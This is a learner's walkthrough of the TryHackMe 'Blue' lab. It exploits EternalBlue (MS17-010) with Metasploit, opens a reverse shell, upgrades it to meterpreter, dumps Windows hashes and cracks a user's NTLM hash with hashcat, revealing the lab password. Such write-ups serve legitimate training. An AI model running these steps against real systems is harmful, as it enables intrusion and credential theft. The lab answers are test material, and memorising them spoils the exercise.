<h1>Blue – TryHackMe Writeup</h1>
This write-up covers my experience working through the Blue room on TryHackMe, where I learned how to identify and exploit the EternalBlue vulnerability (MS17-010). I documented the process of scanning the machine, confirming the SMB vulnerability, using Metasploit to gain access, managing shells and sessions, dumping hashes, cracking passwords, and locating all three flags. This room helped me understand EternalBlue in a hands-on way and strengthen my skills with Metasploit and Windows privilege escalation. <br><br>
<br><br>
Tools Used:<br>
•	Nmap<br>
•	Metasploit/Meterpreter<br>
•	Hashdump<br>
•	Hashcat<br><br>
I started with an nmap scan to scan for any vulnerabilities.<br><br>
<br><br>
Found quite a lot. The question specified said how many vulnerabilities were found for only 1000 ports. So, the answer was 3.<br>

Q: What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)<br>
Can’t see anything with ms??-??? right? So I went to scan the top 1000 ports only<br>
Okay so after trying many scans, I gave up on finding this vuln in nmap and proceeded to find by searching each port vulns on google.<br><br>
<br><br>
Nothing here.<br><br>
<br><br>
Doesn’t seem interesting.<br><br>
Found this article while searching for port 445:<br>
https://www.hackingarticles.in/smb-penetration-testing-port-445/<br><br>
and this made me think that maybe I could have found something in the above two ports.<br>
So let’s try again.<br><br>
This article is about port 135:<br>
https://hackviser.com/tactics/pentesting/services/msrpc<br><br>
So, I tried nmap scan mentioned in it and no other info was found <br>
The vuln must be in smb port then. 	<br><br>
<br><br>
Ahh got it!<br>
Now let’s move on to the second section of this.<br>
The next section introduced Metasploit. Before continuing, I decided to pause and work through the Metasploit room on TryHackMe to make sure I understood the basics properly.

During that room, a few explanations stood out to me:<br><br>
Once you type the use ```exploit/windows/smb/ms17_010_eternalblue``` command, you will see the command line prompt change from msf6 to <br><br>
*“msf6 exploit(windows/smb/ms17_010_eternalblue)”. <br>
"The "EternalBlue" is an exploit allegedly developed by the U.S. National Security Agency (N.S.A.) for a vulnerability affecting the SMBv1 server on numerous Windows systems. The SMB (Server Message Block) is widely used in Windows networks for file sharing and even for sending files to printers. EternalBlue was leaked by the cybercriminal group "Shadow Brokers" in April 2017. In May 2017, this vulnerability was exploited worldwide in the WannaCry ransomware attack."*<br><br>

Once I felt confident with the basics, I returned to the challenge and launched Metasploit. I searched for the exploit:<br>
```Search ms17_010```<br><br>

After that, I selected the full exploit path:<br>
```exploit/windows/smb/ms17_010_eternalblue```<br><br>
Had to download its module. Now I can work with it.<br><br>
Q: Show options and set the one required value. What is the name of this value? (All caps for submission)<br>
Ans: RHOSTS (ofc thanks to the metasploit room) <br><br>
<br><br>
I set RHOSTS with the target’s ip to launch an attack.<br>
*“You need to set RHOSTS in Metasploit to specify the IP address or range of target machines for your exploit or auxiliary module to interact with. Without setting RHOSTS, Metasploit wouldn't know which host or hosts to scan or attack, as RHOSTS provides the necessary context for the module's operation.”*<br>
Here, before assigning payload, its something like this:<br><br>
<br><br>
The payload has meterpreter in it. Tryhackme wants us to change it to:<br><br>
```set payload windows/x64/shell/reverse_tcp```<br>
Then run it by run or exploit.<br><br>
I tried running the exploit a couple of times, but both attempts failed. At that point, I double-checked my configuration. After some searching (and a bit of help from ChatGPT), I realized what I had missed: the LHOST needs to be the IP from the TryHackMe VPN connection, not my local IP.<br><br>
```Set LHOSTS 10.17.39.32```
the exploit finally worked, and I successfully received a shell.<br><br>
Right after the exploit finally worked, my terminal suddenly flooded with command shells popping up one after another. TryHackMe mentioned that I should press Ctrl + Z to background the session, but when I tried it the first time, nothing happened. For a moment, I wasn’t sure if I was doing something wrong or if the shell was just being unresponsive.<br>
I took a minute to look it up and understand what was happening, then tried again—this time a bit more patiently. Eventually, the session did suspend properly with Ctrl + Z, and everything settled down.<br>
It took a little trial and error to figure out, but once the settings were correct and the shell was under control, the rest of the process went smoothly.<br><br>
<br><br>
Let’s move to the 3rd task now.<br>
This was the video I found when I was searching for the above problem:<br>
https://youtube.com/shorts/JZZ7XGtpL34?si=vhTMA4BINnAqUehG<br><br>
According to this, I had to:<br>
	```Search shell_to_meterpreter```<br><br>
<br><br>
The next step was to switch sessions. The task mentioned listing all active sessions, but I wasn’t sure how to do that. I checked the hint, which gave me to the command:<br>
sessions -l<br><br>
<br><br>
When I ran it, Metasploit told me there were no active sessions, which meant I had to run the exploit again. <br><br>
<br><br>
the shell appeared properly this time. I backgrounded it again and returned to the shell_to_meterpreter handler.<br>
I realized I had taken the wrong path, so I backtracked and focused on the correct session.<br>
For this task, I needed to interact with the meterpreter session, which was listed as session 3, so I entered it:<br><br>
<br><br>
| PID | PPID | Name | Arch | Sessions | User | Path |
|---|---|---|---|---|---|---|
| 2252 | 556 | conhost.exe | x64 | 0 | NT AUTHORITY\SYSTEM | C:\Windows\system32\conhost.exe |<br><br>

<br><br>
Let’s move on to the next Task now.<br>
We need to find the guests and the users here and crack their passwords. For this, we need to use hashdump.<br><br>
<br><br>
I’ll copy this hash function and store it in a file. <br>
```echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > hash.txt```<br><br>
I’ll be using hashcat to crack this. <br>
```hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt```<br><br>
<br><br>
This is the cracked password: **alqfna22**<br>
Username is **Jon**.<br>
Back to the meterpreter to escalate our privileges:<br><br>
<br><br>
I looked up where Windows stores its password hashes and learned about the path inside the System32.<br>
I went to ```Windows```-> ```system32``` -> ```config``` and got my second flag.<br><br>
<br><br>
While exploring, the systemprofile folder caught my attention. It looked like it might contain something interesting, so I spent a little time poking around. After a bit of wandering, I decided not to dig too deep—especially since I already had administrative privileges at this point.<br>
Nvm I got lazy and since I got administration privileges already, I used ```search``` for the 3rd flag.<br><br>
<br><br>
<br><br>
So this was it. TryHackMe room Blue. There was a lot to learn from this room and this helped me a lot. Thanks for reading!
